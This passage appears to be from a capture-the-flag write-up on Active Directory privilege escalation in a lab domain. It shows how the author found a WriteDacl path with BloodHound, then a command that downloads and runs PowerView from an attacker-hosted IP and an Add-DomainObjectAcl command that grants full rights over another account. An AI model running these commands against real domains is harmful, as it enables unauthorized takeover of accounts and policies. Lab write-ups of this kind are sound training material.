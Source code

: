 
custom_prompt> whoami
baby2\amelia.griffiths

>Looking straight at amelia.griffiths I did not see much, however when looking at her groups we see something:

    custom_prompt> net user amelia.griffiths


    Local Group Memberships      *Remote Desktop Users 
    Global Group memberships     *office               *Domain Users         
                             *legacy               
    The command completed successfully.

>We saw she is member of legacy. Lets check legacy at BloodHound.

![alt text](../assets/images/2024-06-27-204635_1920x814_scrot.png)

>AND BOOOOOMM!!! 

## GPOADM

<mark>To abuse WriteDacl to a user object, you may grant yourself the GenericAll privilege. This can be accomplished using the Add-DomainObjectAcl function in PowerView.
You may need to authenticate to the Domain Controller as a member of LEGACY@BABY2.VL if you are not running a process as a member. To do this in conjunction with Add-DomainObjectAcl, first create a PSCredential object (these examples comes from the PowerView help documentation)</mark>

>As shown above the Legacy group, which ameila belongs to has WriteDacl over GPOADM and they have GenericAll permissions over the Default Domain Policy. To do this we must first put PowerView on the machine:

    iex (iwr -usebasicparsing http://10.8.2.152/PowerView.ps1)

    add-domainobjectacl -rights "all" -targetidentity "gpoadm" -principalidentity "Amelia.Griffiths"
